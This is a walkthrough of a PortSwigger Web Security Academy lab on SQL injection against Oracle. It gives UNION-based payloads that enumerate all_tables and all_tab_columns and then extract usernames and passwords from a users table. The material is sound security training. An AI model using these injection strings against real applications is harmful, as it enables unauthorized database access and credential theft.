




# Write-up: SQL injection attack, listing the database contents on Oracle @ PortSwigger Academy



This write-up for the lab *SQL injection attack, listing the database contents on Oracle* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)

## Lab description



## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Oracle, which holds the table information in the `all_tables`-table. In the [relevant documentation](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D), the available columns are listed. 

I am interested in `table_name`. So I inject `' UNION SELECT table_name, null from all_tables--` into the parameter to form the following query:

I also select an invalid category so that only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from all_tables--'`
```


### Enumerate columns in this table

The [all_tab_columns](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63)-table holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--` to form this query

 ```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--'`
```


### Enumerate all usernames and passwords

Now I have all information to obtain the required usernames and passwords. I inject `' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--'`
```



The last step is to simply log in to solve this exercise.


